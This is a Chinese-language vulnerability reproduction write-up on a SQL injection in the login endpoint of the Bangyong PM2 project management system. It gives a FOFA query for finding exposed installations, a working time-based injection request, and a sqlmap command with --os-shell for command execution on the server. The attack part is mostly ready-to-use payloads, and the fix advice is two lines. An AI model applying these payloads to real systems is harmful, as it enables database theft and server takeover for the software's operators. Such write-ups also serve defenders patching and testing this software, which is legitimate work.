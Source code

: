 
# 邦永 PM2 项目管理系统 SQL 注入漏洞复现

### 0x01 产品简介

   邦永 PM2 项目管理系统科学地将项目管理思想和方法和谐、统一，使得长期以来困扰项目管理工作者的工期、进度、投资和成本情况无法整体动态管理的问题得到了全面而彻底的解决。

### 0x02 漏洞概述

  邦永科技 PM2 项目管理平台 Global\_UserLogin.aspx 接口处未对用户传入的参数未进行有效的过滤，直接拼接至 SQL 查询的语句中，导致 SQL 注入漏洞，攻击者可利用该漏洞获取数据库的敏感信息，深入利用可造成服务器失陷。

### 0x03 复现环境

FOFA：body="PM2 项目管理系统 BS 版增强工具.zip"

![](assets/1700701085-484ba86b6a44c4602212e5e4ec3c2a42.png)

### 0x04 漏洞复现 

PoC

```http
GET /Global/Global_UserLogin.aspx?accId=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27--&loginCode=&password=&type= HTTP/1.1
Host: {{Hostname}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```

延时 5 秒

![](assets/1700701085-2e81c562c8b2d1d5fe025e114f4b1168.png) Sqlmap 利用

```sql
python3 sqlmap.py -u "http://your-ip/Global/Global_UserLogin.aspx?accId=1*&loginCode=&password=&type=" --os-shell
```

命令执行 

![](assets/1700701085-83c1b8ae5f6d9fa982b1feacd457b909.png)

### 0x05 修复建议 

关闭互联网暴露面或接口设置外部访问权限

升级至安全版本
